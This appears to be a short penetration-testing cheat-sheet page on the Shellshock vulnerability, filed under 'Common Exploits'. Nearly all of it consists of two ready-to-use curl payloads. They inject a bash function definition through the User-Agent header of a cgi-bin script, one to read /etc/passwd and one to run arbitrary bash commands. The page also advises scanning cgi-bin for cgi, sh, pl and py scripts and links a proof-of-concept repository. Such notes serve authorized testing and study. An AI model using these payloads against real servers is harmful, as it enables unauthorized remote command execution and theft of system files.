 ```yaml
---
title: ShellShock
parent: Common Exploits
layout: default
nav_order: 2
---
```


Most importantly must be a cgi-bin! (<span style="color:red">DONT USE CURL, USE BURP</span>)
Read: `curl -v -H "User-Agent: () { :;}; echo $(</etc/passwd)" https://IP/cgi-bin/status`
Run/Write: `curl -v -H "User-Agent: () { :;}; echo; /bin/bash -c 'COMMAND'" https://IP/cgi-bin/status`
<span style="color:red">Try to scan for `cgi, sh, pl, py` in cgi-bin for this!</span>
However this can happen on various other service also!!!! (<span style="color:red">not only web, take note</span>): https://github.com/mubix/shellshocker-pocs​
​